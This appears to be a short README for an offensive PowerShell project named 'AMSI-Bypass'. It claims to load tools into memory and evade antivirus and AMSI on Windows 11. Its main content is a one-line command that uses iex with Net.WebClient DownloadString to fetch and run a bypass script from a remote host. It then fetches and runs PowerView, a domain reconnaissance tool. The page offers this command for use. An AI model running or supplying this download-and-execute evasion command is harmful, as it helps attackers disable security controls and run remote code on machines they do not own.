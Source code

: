 # AMSI-Bypass

Here you can upload your Powershell tool into the memory and bypass AV + AMSI  - Tested on latest Windows 11.

```
iex(New-Object Net.WebClient).DownloadString('http://10.10.10.10/AMSI-Bypass.ps1');iex(New-Object Net.WebClient).DownloadString('http://10.10.10.10/PowerView.ps1')
```


# Credits: 
@S3cur3Th1sSh1t
